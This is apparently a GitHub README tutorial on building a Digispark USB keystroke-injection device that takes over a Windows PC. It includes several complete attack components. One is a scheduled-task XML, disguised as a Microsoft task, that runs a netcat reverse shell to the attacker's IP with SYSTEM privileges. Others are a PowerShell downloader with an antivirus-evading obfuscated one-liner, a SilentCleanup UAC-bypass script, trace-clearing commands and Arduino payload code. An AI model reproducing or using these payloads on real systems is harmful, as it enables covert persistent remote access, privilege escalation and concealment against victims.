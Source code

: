 ## Gain control on a computer in 3 seconds

#### As seen on Mr.Robot (S04x10)

![Mr Robot hodling Digispark](https://cdn.discordapp.com/attachments/914907771063894059/926024143202295828/IMG_0022.png)


**S**o, I made a rubber ducky with a small arduino board called [digispark](https://www.amazon.in/dp/B07B8SS1VQ/ref=cm_sw_r_cp_api_glt_fabc_MHJ6HENHA71NN6VZK0DE). The original rubber duckies are pretty costly (for me anyway) [link here](https://shop.hak5.org/products/usb-rubber-ducky-deluxe). Sure they're fast and have more memory than digisparks, but making one our own will give us complete control of the board.We can configure the boot load times, make signals with on-board led etc.

## UAC bypass

UAC means 'User Account Control'. Yes, even if your computer has tight securities like when you try to install an app, the UAC dialogue box appears asking  a simple 'Yes' or 'No'. We're going to bypass and go further.

![UAC prompt screen](https://cdn.discordapp.com/attachments/914907771063894059/925379076624113734/IMG_0014.jpg)

We'll also evade all major anti-virus applications using clever tricks.

## So how do we do this
Well, first of all you need to download netcat 1.12 [here](https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip) and extract the **nc64.exe.** Once you got it extracted upload it to some file-hosting service of your choice, which provides **DIRECT LINK** (very important!!). I used **Discord**, it works like a charm and link doesn't expire. Just upload the file to discord, right click on it and select copy media link.

&#x200B;

Second, you need to make yourself an **.XML** file which you'll need later for Task Scheduler. I believe scheduled tasks are really good way to set up persistence. It means our hack will always run in background even when the system restarts or anything. Scheduled tasks are also good for escalating the file that it executes to **NT Authority\\SYSTEM** privileges, while remaining stealthy. 

I already did the work for you. This is what it should look like.


    <?xml version="1.0" encoding="UTF-16"?>
    <Task version="1.2" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
      <RegistrationInfo>
    <Author>Microsoft Corporation</Author>
    <Description>This will ensure system stability in case of an unexpected update interruption.</Description>
      </RegistrationInfo>
      <Triggers>
    <LogonTrigger>
      <Repetition>
        <Interval>PT1M</Interval>
        <StopAtDurationEnd>false</StopAtDurationEnd>
      </Repetition>
      <Enabled>true</Enabled>
      <Delay>PT30S</Delay>
    </LogonTrigger>
      </Triggers>
      <Principals>
    <Principal id="Author">
      <UserId>S-1-5-18</UserId>
      <RunLevel>HighestAvailable</RunLevel>
    </Principal>
      </Principals>
      <Settings>
    <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
    <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
    <StopIfGoingOnBatteries>false</StopIfGoingOnBatteries>
    <AllowHardTerminate>true</AllowHardTerminate>
    <StartWhenAvailable>true</StartWhenAvailable>
    <RunOnlyIfNetworkAvailable>true</RunOnlyIfNetworkAvailable>
    <IdleSettings>
      <StopOnIdleEnd>false</StopOnIdleEnd>
      <RestartOnIdle>false</RestartOnIdle>
    </IdleSettings>
    <AllowStartOnDemand>true</AllowStartOnDemand>
    <Enabled>true</Enabled>
    <Hidden>true</Hidden>
    <RunOnlyIfIdle>false</RunOnlyIfIdle>
    <WakeToRun>false</WakeToRun>
    <ExecutionTimeLimit>PT0S</ExecutionTimeLimit>
    <Priority>7</Priority>
      </Settings>
      <Actions Context="Author">
    <Exec>
      <Command>%public%\audiosvc.exe</Command>
      <Arguments>(Your IP address without brackets) 4444 -e cmd.exe -d</Arguments>
    </Exec>
      </Actions>
    </TASK>



Just modify the arguments in the bottom with your **IP/PORT**. You can google how to find ip-address of your device.Once you got that done, save it and upload it for **DIRECT LINK**, just like you uploaded your previous file. 



&#x200B;

Now, that the boring setup part is over, we get to the actual code that's being executed to achieve this type of shell:

    cd $env:public
    $url1="YOUR_NC64_LINK"
    $url2="YOUR_XML_LINK"
    $path1="$env:public\svchost.exe"
    $path2="$env:public\x.xml"
    (new-object net.webclient).downloadfile($url1,$path1)
    (new-object net.webclient).downloadfile($url2,$path2)
    cmd /r 'reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU" /va /f&reg add "HKCU\Environment" /v "windir" /d "%comspec% /r mode 18,1&cd %public%&schtasks /create /tn \"Windows Update Assistant\" /f /xml x.xml >nul&schtasks /run /tn \"Windows Update Assistant\" /i >nul&REM "&timeout /t 1&schtasks /run /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I >nul&timeout /t 1&reg delete "HKCU\Environment" /v "windir" /F&attrib +s +h svchost.exe&del /q x.xml'

## Whats happening?

We're creating a persistent reverse shell(more about reverse shell [here](https://www.netsparker.com/blog/web-security/understanding-reverse-shells/)).

First, it downloads both of your files via powershell, then it clears our Windows + R history to clear any traces of itself (if you're using  USB RubberDucky). Then it uses the UAC bypass technique i shared at the end of this post to create scheduled task called **Windows Update Assistant**, which is set to be executed to run with **NT Authority\\SYSTEM** privileges(high level privileges or access) in our **.XML** file. Then it marks our **nc64.exe** file as hidden system file, which is also now called **svchost.exe** and then it deletes our **.XML** file, since system doesn't need it anymore after task is created.

&#x200B;

Now you're probably thinking, this is all nice, but how the hell do we run this in one-line of code?

Very simple, by invoking expression called **DownloadString** in powershell like this:

    powershell -nop -w 1 -c "iex (new-object net.webclient).downloadstring('YOUR_PASTEBIN_LINK')"

But problem with this one-liner is, that it gets picked up by most Anti-viruses as "malicious activity". Therefore, we need to obfuscate(hide) it a bit:

    cmd.exe /c powershell -nop -w 1 -c "iex (.('ne'+'w-ob'+'ject') ('ne'+'t.webc'+'lient')).('do'+'wnloadstr'+'ing').invoke(('Y'+'OUR_'+'PASTEBIN'))"

And there it is, this one liner will get you persistent reverse shell which will check for itself every minute if it's running and if it's not, then it executes itself silently in the background.

&#x200B;

## The UAC bypass technique

Bypassing highest UAC level [Windows 8,10,11]

&#x200B;

It's done by adding temporary Environment variable **windir** into **HKCU\\Environment** registry path.

There's an auto-elevated task called **SilentCleanup** and it's located in: **%windir%\\system32\\cleanmgr.exe** We can easily abuse this and elevate any file with Administrator privileges without prompting UAC (even highest level).

So let's say I'm gonna set **windir** to: "**cmd /k REM** "

And forcefully run **SilentCleanup** task:

    schtasks /run /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I

**REM** will tell it to ignore everything after **%windir%** and treat it just as a NOTE. Therefore just executing cmd with admin privs.

If you want to try this for yourself, here's a little batch script I made to elevate powershell:

    @echo off
    mode 18,1
    color FE
    reg add "HKCU\Environment" /v "windir" /d "cmd /c start powershell&REM " >nul
    timeout /t 2 >nul
    schtasks /run /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I >nul
    timeout /t 3 >nul
    reg delete "HKCU\Environment" /v "windir" /F

&#x200B;

## Wait i hacked my own system

You may be testing this on your own system. If you want to remove the reverse shell, copy the following code into a batch file( files ending with .bat extension on windows) and run it with administrator privilages.(right click on the bat file and click run-as-administrator).


    @echo off
    schtasks /end /tn "Windows Update Assistant" >nul
    schtasks /delete /tn "Windows Update Assistant" /f
    cd %public%
    attrib -s -h svchost.exe
    del /q svchost.exe
    timeout /t 1 >nul



&#x200B;


## Rubber ducky code

Digispark works with Arduino IDE, you can learn writing Arduino scripts on google. It's pretty simple and easy. You can learn how to setup Arduino IDE for digispark [here](https://maker.pro/arduino/projects/how-to-build-a-rubber-ducky-usb-with-arduino-using-a-digispark-module)

    #include "DigiKeyboard.h"

    void setup() {}

    void loop() {
	DigiKeyboard.sendKeyStroke(0);
	DigiKeyboard.delay(3000);
	DigiKeyboard.sendKeyStroke(0, MOD_GUI_LEFT,KEY_R);
	DigiKeyboard.delay(500);
	DigiKeyboard.print("[code]");
	DigiKeyboard.sendKeyStroke(KEY_ENTER);
    }

Above code is simple and Works on any PC. Plug-in your digispark to PC and see the magic happen in 3 seconds.